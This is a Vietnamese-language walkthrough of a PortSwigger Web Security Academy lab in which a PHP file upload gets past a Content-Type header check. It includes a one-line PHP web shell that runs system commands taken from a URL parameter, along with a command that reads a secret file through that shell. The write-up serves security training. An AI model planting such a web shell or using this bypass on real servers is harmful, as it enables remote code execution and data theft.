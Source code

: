 ## 1. Thông tin bài lab
- Tên lab: **Web shell upload via Content-Type restriction bypass**
- Loại lỗ hổng: File upload -> RCE (Remote Code Execution)
- Link bài lab: [Web shell upload via Content-Type restriction bypass](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-content-type-restriction-bypass)
- **Mục tiêu**: Upload webshell vào thư mục thực thi mã PHP, chiếm quyền điều khiển server và đọc nội dung tệp tin bí mật _**/home/carlos/secret**_
## 2. Phân tích ban đầu
**Chức năng ứng dụng:** 
- Sau khi đăng nhập tài khoản người dùng, người dùng có thể update email, upload ảnh avatar của người dùng.

![img1](./img/lab1/img1.png)

- Sau khi upload, ứng dụng thông báo đã upload thành công và đường dẫn lưu file ảnh upload.

![img2](./img/lab1/img2.png)

**Đặt giả thuyết**
-	Kiểm tra xem liệu ta có thể upload và thực thi một file php bằng cách tạo một file tên test.php với nội dung <?php phpinfo(); ?> và upload lên server.

![img3](./img/lab1/img6.png)

**Kiểm tra giả thuyết**
- Sau khi upload, ta nhận được phản hồi từ phía server kiểu file `application/octet-stream` chỉ cho phép upload các file kiểu `image/png, image/jpeg`

![img4](./img/lab2/img1.png)

- Có vẻ như server căn cứ vào header `Content-Type` để nhận diện loại file
- Thử thay đổi nội dung header thành **image/png** hoặc **image/jpeg** và upload lại file.

![img5](./img/lab2/img2.png)

- Kết quả upload file thành công, thử truy cập đến file thông qua phương thức GET để xem liệu mã PHP có được thực thi không?
- Mã PHP đã được thực thi tiếp theo ta tiến hành RCE và đọc nội dung tệp tin bí mật

![img6](./img/lab2/img3.png)

## 3. Tiến hành khai thác
- Tạo một file tên _shell.php_ với nội dung là đoạn code php:

```<?php echo system($_GET['x']) ?>```

Đoạn code cho phép thực thi câu lệnh hệ thống, trong đó x là tham số ta có thể truyền vào qua URL.

![img7](./img/lab2/img4.png)

- Truyền tham số *'x'* để đọc nội dung tệp tin bí mật `x=cat%20/home/carlos/secret`

![img8](./img/lab2/img5.png)



















